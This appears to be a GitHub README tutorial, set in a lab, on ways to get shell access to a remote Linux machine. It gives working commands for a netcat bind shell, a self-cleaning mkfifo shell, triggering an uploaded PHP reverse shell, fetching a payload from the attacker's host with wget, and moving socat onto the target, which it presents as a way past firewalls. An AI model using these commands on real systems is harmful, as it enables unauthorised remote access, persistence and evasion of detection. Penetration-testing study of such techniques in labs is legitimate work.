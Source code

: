 # Various-process-of-getting-shell-access
Here We'll discuss how to get a shell in multiple ways -->

## For-Linuc-Remote-PC:

First assume your ****ATTACK/HACKER PC IP** is **10.10.201.217** & your **REMOTE/ATTACKING/TARGET PC IP** is **10.10.152.101**

### _**Type-1: Simple bind shell using netcat**_

This is the easiest process. Assume you already has SSH ACCESS and netcat needs to be installed on both the devices.

1. Log in to Remote pc using ssh ID and pass. then type the below command in remote pc terminal-

   ` nc -lvnp 4000 -e /bin/bash`
   
   (this will create a Bind shell in remote pc and it starts looking for any conenction on it's 4000 port)

3. Now in attack pc terminal type

    `nc 10.10.152.101 4000` (this will connect you to remote pc shell using 4000 port)


INSTEAD of above **method-1's point 1** you can use **below command in remote pc** which will help you to **delete the execution files and details ones the job is done** -

`mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`


    Here's what each part of the command does:
    
        mkfifo /tmp/f: Creates a named pipe (FIFO) named /tmp/f. This is used for passing data between processes.
        
        nc -lvnp <PORT> < /tmp/f: Starts a netcat listener (nc) on the specified port (<PORT>) and reads input from the named pipe /tmp/f. When a connection is made, netcat pipes the input/output to /bin/sh, effectively spawning a shell.
        
        >/tmp/f 2>&1: Redirects standard output (stdout) and standard error (stderr) from the shell (/bin/sh) to the named pipe /tmp/f. This allows the output of commands executed on the shell to be sent back through the named pipe to the netcat listener.
        
        rm /tmp/f: Removes the named pipe /tmp/f after the shell session is closed, cleaning up the temporary file.


### _Type 2: using php-reverse-shell_ 
Assume you have uploaded a revershe shell file to the vulnerable web server by any means. Assume the file name is "shell.php" and it's in /var/www/html folder of 10.10.152.101 ip. Activate this file by typing below command in your browser in your attack machine

`http://10.10.152.101/shell.php`  (you'll see your browser starts loading and will become unresponsive, which means the shell has been activated)

Now try the below command in your attacking machine terminal

`nc -lvnp 1234`  (here the port number is the port number which you mentioned in your shell.php file)

you can create the shell file from your kali linux /usr/share/webshells folder or you can use https://www.revshells.com/ or https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#summary to generate and download the file

### _Type 3: by using temporary webserver_ 
If somehow you have access to remote pc from before fro time being then for further and future access you can upload the reverse shell directly to the remote pc. 

In this process first create the reverse shell file, then in the same directory type the below command to start a http server on any port

python3 -m http.server 8000 (it means a temporay http server has been created using python on port 8000)

then from remote pc download the file from attackers pc using the below command -

wget http://attacker-pc-ip:8000/path-to-shell-file

then after downloading it in remote pc, move it to /var/www/html folder or any other folder which you can access globally from anywhere. after that follow type 2 procedure to access later

USING SOCAT-
SOCAT creates encrypted shell which is very useful to evade IDEs and other firewalls . But for that both attacker and remote machine needs to have socat installed in it.
After gaining access by following above processes you can transfer the socat binary from your local machine to the target machine (with IP address 10.10.152.101)

scp /path/to/socat user@10.10.152.101:/path/to/destination (usually socat path is /usr/bin/socat or you can use which socat to check the path)

for socat you need user access otherwise it'll become very tough to use SOCAT.





